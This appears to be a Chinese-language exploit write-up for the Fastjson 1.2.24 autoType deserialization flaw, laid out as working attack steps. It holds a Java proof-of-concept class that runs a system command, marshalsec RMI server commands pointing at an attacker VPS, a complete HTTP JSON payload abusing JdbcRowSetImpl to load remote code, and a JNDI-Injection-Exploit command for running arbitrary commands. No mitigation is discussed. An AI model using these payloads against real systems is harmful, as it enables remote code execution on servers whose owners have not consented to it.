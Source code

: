 ## 漏洞概述

Fastjson在1.2.24以及之前版本存在远程代码执行高危安全漏洞

Fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链

## 影响范围

```http
Fastjson <= 1.2.24
```

## POC

1、编译POC

将代码编写为class类文件，并将生成的类文件放在web目录下，启动web服务

```java
//POC.java
import java.lang.Runtime;
import java.lang.Process;

public class POC {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"ping", "bnntoh.dnslog.cn"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

```bash
#编译
javac POC.java
```

```bash
#启动web服务
python3 -m http.server 8001
```

2、配置RMI环境

用marshalsec项目，启动一个RMI服务器，监听9999端口，并加载远程类

下载地址：https://github.com/mbechler/marshalsec 

切换到marshalsec目录下使用maven进行打包，

```bash
mvn clean package -DskipTests
```

开启监听

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://VPS-IP:8001/#POC" 9999
```

备注：http://xx.xx.xx.xx:9999/#POC 是放Java类的地址，类只要写名字即可，不需要加.class，其次类名前要加#

3、发送Payload

```http
POST / HTTP/1.1
Host: 192.168.2.133:32768
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 167

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://VPS-IP:9999/POC",
        "autoCommit":true
    }

}
```

## EXP

**使用相对简单的自动化工具**

对于JNDI注入POC，会使用到RmiServer或者LdapServer（在Jndi注入中Ldap比Rmi的条件限制少）

[@welk1n（JNDI-Injection-Exploit）](https://github.com/welk1n/JNDI-Injection-Exploit)

需要VPS放行端口，此工具会自动打开监听端口

1、自动开启RMI和LDAP服务以及发布Exploit类

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "要执行的命令" -A "VPS-IP"
```

2、Burp发送Payload（即POC中的第三步）